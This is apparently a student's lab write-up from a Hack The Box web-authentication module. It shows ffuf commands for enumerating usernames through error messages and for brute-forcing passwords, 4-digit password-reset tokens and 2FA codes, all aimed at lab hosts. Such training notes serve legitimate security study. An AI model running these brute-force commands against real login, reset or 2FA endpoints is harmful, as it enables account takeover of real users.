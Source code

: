 # 🏍️ Brute-Force Attacks

## Enumerating Users

User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints

Let's imagine those 2 errors:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>User does not exist</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Just a wrong password </p></figcaption></figure>

To enumerate users via error messages, we will use the `xato-net-10-million-usernames.txt`

Let's imagine the following error message:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we can filter out invalid users by removing responses containing the string `Unknown user`

```shell-session
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

And when we identify a valid user, we can proceed to do bruteforce

_**Enumerate a valid user on the web application. Provide the username as the answer.**_

```
fuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.56.194:35890/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Brute-Forcing Passwords

Let's imagine we got password policy going on and we're not sure about lockout policy, we can create wordlists according to the policy from famous wordlists to reduce noise:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
ElFelixi0@htb[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

Once we got our user or our list of users and our post variable as well as the error messgae, we can start bruteforcing ->

```
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

_**What is the password of the user 'admin'?**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w custom_wordlist.txt -u http://94.237.53.113:46749/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password that often utilizes a one-time reset token via SMS or email.

Here is a a basic password reset flow

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To start exploiting this, let's imagine we created an account on the website and asked for a new password and received this type of email:

```
<SNIP>
paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351
<SNIP>
```

We can see that we get the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values&#x20;

So let's start by making our list of possible tokens:

```shell-session
seq -w 0 9999 > tokens.txt
```

and then launch our attack and all ports, thus attacking every user that is currently resseting their password

```shell-session
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

_**Takeover another user's account on the target system to obtain the flag.**_

```
ffuf -w ./tokens.txt -u http://94.237.50.83:58664/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 2FA Codes

Generally this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device)

most of the time, it relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS that are typically **only of digits**

Let's say we have a set of credentials and there is 2FA:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we capture the request we can see the follwoing:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption><p>only <code>10,000</code> possible variations</p></figcaption></figure>

So let's start by crafting our wordlist, then our payload:

```shell-session
seq -w 0 9999 > tokens.txt
```

We can't forget the error message:&#x20;

```shell-session
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

_**Brute-force the admin user's 2FA code on the target system to obtain the flag.**_

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w tokens.txt -u http://94.237.56.194:54467/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=d3ng2r9pippot860ural3jls64" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
